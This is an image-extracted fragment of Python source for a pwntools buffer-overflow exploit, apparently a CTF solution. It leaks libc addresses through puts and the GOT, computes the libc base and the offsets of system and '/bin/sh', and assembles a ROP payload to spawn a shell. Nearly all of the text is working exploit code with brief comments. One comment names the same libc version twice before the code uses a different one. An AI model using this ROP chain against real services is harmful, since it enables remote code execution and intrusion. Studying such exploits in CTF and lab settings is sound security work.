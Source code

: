 ```python
	session.sendline(payload)
	session.sendlineafter("?",b"Q")
	session.recv()
	function_libc=u64(session.recv().strip().ljust(8,b"\x00"))
	success(f'{i} {hex(function_libc)}')

### Now that we have the function addresses we can put them in an online libc database, e.g https://libc.rip and find the version of libc that might be used.  ###

### We get 2 possibilities, libc6_2.31-0ubuntu9.8 and libc6_2.31-0ubuntu9.8 ###

### But first we need to pick a function to calculate the libc base from, I chose setvbuf because it's a reliable function ###

### ---------------------------------------------------------------------------------------------------------------------- ###

### Leak setvbuf live due to ASLR ###

payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(original.got.setvbuf),
			p64(puts_plt),
			p64(original.symbols['main']),
			])
session.sendline(payload)
session.sendlineafter("?",b"Q")
session.recv()
setvbuf_libc=int(hex(u64(session.recv().strip().ljust(8,b"\x00"))),16)
setvbuf_address=hex(setvbuf_libc)
success(f'{hex(setvbuf_libc)=}')


### Now we can calculate the system and /bin/sh offsets ### 

libc=ELF('./libc6_2.31-0ubuntu9.9_amd64.so')

libc_base=int(hex(setvbuf_libc-0x0000000000084ce0),16) ### First value was leaked (address of setvbuf), and second value was grabbed from libc 'readelf -s libc6_2.31-0ubuntu9.9_amd64.so |grep setvbuf', or can be found in pwntools using <libc object>.symbols.setvbuf
system_libc=int(hex(libc_base+0x0000000000052290),16) 
bin_sh=int(hex(libc_base+0x1b45bd),16)


success(f'{hex(libc_base)=}') ### Reminder: LIBC base should always end with 000
success(f'{hex(system_libc)=}')
success(f'{hex(bin_sh)=}')

### ---------------------------------------------------------------------------------------------------------------------- ###

### Final payload to pop a shell ###

payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(bin_sh),
			p64(system_libc),
			p64(original.symbols['main']),
			])
```